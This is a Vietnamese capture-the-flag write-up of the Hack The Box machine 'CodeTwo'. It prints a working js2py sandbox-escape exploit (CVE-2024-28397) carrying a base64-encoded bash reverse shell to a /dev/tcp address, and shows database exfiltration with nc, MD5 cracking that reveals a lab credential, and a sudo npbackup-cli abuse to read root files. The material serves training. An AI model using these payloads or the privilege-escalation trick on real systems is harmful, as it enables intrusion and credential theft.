 ```yaml
---
title: HTB CodeTwo
published: 2025-09-03
tags: [HTB, Linux, Easy]
category: Writeups
author: Trohan0x00
description: Writeup about CodePartTwo Machine
draft: false
image: "/assets/post_image/code2.png"
---
```


# HTB Labs: CodeTwo

## I. User_Flag
Bước ban đầu scan với nmap trước ta được 2 services
![image](https://hackmd.io/_uploads/B10CR8Lqlg.png)
Có vẻ như ssh ta chưa thể khai thác được gì nên giờ ta đến với web server
![image](https://hackmd.io/_uploads/B1SByD85gx.png)
Đây là một plaform giúp người dùng có thể code nhanh `Javascript` với `IDE` online trên máy chủ. Ta có các dir là `/login`, `/register` và `/download`. Ta sẽ thử reg và login một account để xem chức năng.
Sau một lúc tìm hiểu chức năng thì ta có thể tìm thấy lỗ hỏng `SSTI` ở trong `/dashboard` nơi để ta viết code
![image](https://hackmd.io/_uploads/S1lwlvUcxx.png)
Nhưng có vẻ đã bị sandbox, và filter hết tất cả các hàm có thể khai thác nên có lẽ ta cần download source app ở `/download` để có thể tìm thêm thông tin
![image](https://hackmd.io/_uploads/HknVWwU5ll.png)
ta thấy được source dùng thư viện `js2py`. Đây là thư viện giúp ta có thể code được code `Javascript` trong `Python` như đã thấy ở phía web server và đây cũng giải thích lý do vì sao server chạy `Jinja2` lại có thể code `Javascript` 
![image](https://hackmd.io/_uploads/SyU_R2Lclx.png)
Sau một lúc tìm kiếm, ta thấy được một `CVE-2024-28397` của thư viện này và có public poc [ở đây](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape)
Cụ thể lỗ hỏng này cho phép attacker có thẻ `escape` khỏi môi trường `javascript` để có thể `RCE` và thực hiện các lệnh injection ta có được `POC` khai thác và mình sẽ sửa lại một chút để tương thích với bài lab hơn
```javascript 
let cmd = "printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuMTAuMTQuNjQvNDQ0NCAwPiYxKQ==|base64 -d|bash"; 
let a = Object.getOwnPropertyNames({}).__class__.__base__.__getattribute__;  
let obj = a(a(a,"__class__"), "__base__");  
function findpopen(o) {  
    let result;    for(let i in o.__subclasses__()) {        let item = o.__subclasses__()[i];        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {            return item;        }        if(item.__name__ != "type" && (result = findpopen(item))) {            return result;        }    }}  
let result = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate();  
console.log(result);  
result;  
```
Ở `POC` chỉ lệnh `RCE` bình thường nhưng để thuận tiện khai thác mình sẽ thực hiện reverse shell về phía local với payload `(bash -i >& /dev/tcp/10.10.14.66/4444 0>&1)`
![image](https://hackmd.io/_uploads/BkQmTWw5ge.png)
Ta thành công lấy được shell ở local, check dir hiện tại thì đang ở `/home/app/app`, sau một lúc recon thì thấy được một file users.db ở dir `/home/app/app/instance/` có lẽ file này sẽ có thông tin hữu ích để có thể khai thác
Nhưng do shell ở target không có `sqlite3` để đọc dữ liệu nên ta sẽ dùng `nc` để chuyển về local 
![image](https://hackmd.io/_uploads/SyklRWw9xx.png)
Ta thành công get file về và dùng `sqlite3` để check, thấy rằng db có 2 bảng là `code_snippet` và `user`. Check `user` thì thấy các credential của user với `hashed passwd`
![image](https://hackmd.io/_uploads/SkvPkMv9ex.png)
Và ở phần source code ta biết được passwd sẽ được encrypt bằng `MD5` nên ta có thể dùng `John` để crack dễ dàng. Mình sẽ dùng wordlist `rockyou`
![image](https://hackmd.io/_uploads/H1kEGfv5ee.png)
Giờ ta đã có credential hoàn chỉnh `marco:swetangelbabylove` giờ thì có thể login với ssh server và lấy được `user_flag`
![image](https://hackmd.io/_uploads/H13uMMD9le.png)

## II. Root flag

Check với `sudo -l`, ta thấy có một process có thể run với toàn quyền `root` là `/usr/local/bin/npbackup-cli`. 
![image](https://hackmd.io/_uploads/BJ5oGfPcxl.png)
`npbackup-cli (Portable Network Backup Client)` đây là công cụ `CLI` để tạo và quản lý backup, hỗ trợ snapshot, restore, kiểm tra tính toàn vẹn, và housekeeping. Và file config mặc định sẽ là `npbackup.conf` cũng được tìm thấy ngay tại thư mục hiện tại
```config
conf_version: 3.0.1
audience: public
repos:
  default:
    repo_uri: 
      __NPBACKUP__wd9051w9Y0p4ZYWmIxMqKHP81/phMlzIOYsL01M9Z7IxNzQzOTEwMDcxLjM5NjQ0Mg8PDw8PDw8PDw8PDw8PD6yVSCEXjl8/9rIqYrh8kIRhlKm4UPcem5kIIFPhSpDU+e+E__NPBACKUP__
    repo_group: default_group
    backup_opts:
      paths:
      - /home/app/app/
      source_type: folder_list
      exclude_files_larger_than: 0.0
    repo_opts:
      repo_password: 
        __NPBACKUP__v2zdDN21b0c7TSeUZlwezkPj3n8wlR9Cu1IJSMrSctoxNzQzOTEwMDcxLjM5NjcyNQ8PDw8PDw8PDw8PDw8PD0z8n8DrGuJ3ZVWJwhBl0GHtbaQ8lL3fB0M=__NPBACKUP__
      retention_policy: {}
      prune_max_unused: 0
    prometheus: {}
    env: {}
    is_protected: false
groups:
  default_group:
    backup_opts:
      paths: []
      source_type:
      stdin_from_command:
      stdin_filename:
      tags: []
      compression: auto
      use_fs_snapshot: true
      ignore_cloud_files: true
      one_file_system: false
      priority: low
      exclude_caches: true
      excludes_case_ignore: false
      exclude_files:
      - excludes/generic_excluded_extensions
      - excludes/generic_excludes
      - excludes/windows_excludes
      - excludes/linux_excludes
      exclude_patterns: []
      exclude_files_larger_than:
      additional_parameters:
      additional_backup_only_parameters:
      minimum_backup_size_error: 10 MiB
      pre_exec_commands: []
      pre_exec_per_command_timeout: 3600
      pre_exec_failure_is_fatal: false
      post_exec_commands: []
      post_exec_per_command_timeout: 3600
      post_exec_failure_is_fatal: false
      post_exec_execute_even_on_backup_error: true
      post_backup_housekeeping_percent_chance: 0
      post_backup_housekeeping_interval: 0
    repo_opts:
      repo_password:
      repo_password_command:
      minimum_backup_age: 1440
      upload_speed: 800 Mib
      download_speed: 0 Mib
      backend_connections: 0
      retention_policy:
        last: 3
        hourly: 72
        daily: 30
        weekly: 4
        monthly: 12
        yearly: 3
        tags: []
        keep_within: true
        group_by_host: true
        group_by_tags: true
        group_by_paths: false
        ntp_server:
      prune_max_unused: 0 B
      prune_max_repack_size:
    prometheus:
      backup_job: ${MACHINE_ID}
      group: ${MACHINE_GROUP}
    env:
      env_variables: {}
      encrypted_env_variables: {}
    is_protected: false
identity:
  machine_id: ${HOSTNAME}__blw0
  machine_group:
global_prometheus:
  metrics: false
  instance: ${MACHINE_ID}
  destination:
  http_username:
  http_password:
  additional_labels: {}
  no_cert_verify: false
global_options:
  auto_upgrade: false
  auto_upgrade_percent_chance: 5
  auto_upgrade_interval: 15
  auto_upgrade_server_url:
  auto_upgrade_server_username:
  auto_upgrade_server_password:
  auto_upgrade_host_identity: ${MACHINE_ID}
  auto_upgrade_group: ${MACHINE_GROUP}
```
Hãy tưởng tượng sẽ thế nào nếu phần config thay vì chỉ backup ở dir là `/home/app/app` thì mình sẽ đổi lại thành `/root`? Vì vốn dĩ khi config target đã cho ta toàn quyền sudo với `npbackup-cli` thì ta có thể thực hiện việc backup toàn bộ thư mục root và sau đó `dump` ra dữ liệu mà ta cần
Và nên lưu ý, do file ban đầu ta không hề được cấp quyền `write` nên ta có thể xóa luôn file config ban đầu và tạo lại một file mới. Sau đó lưu lại bằng `sudo npbackup-cli -c npbackup.conf -b -f`

Giờ thì ta hoàn toàn có thể dump dễ dàng file `root.txt` ra `sudo npbackup-cli -c npbackup.conf -f --dump /root/root.txt`

![image](https://hackmd.io/_uploads/Hk_tvMD5ee.png)


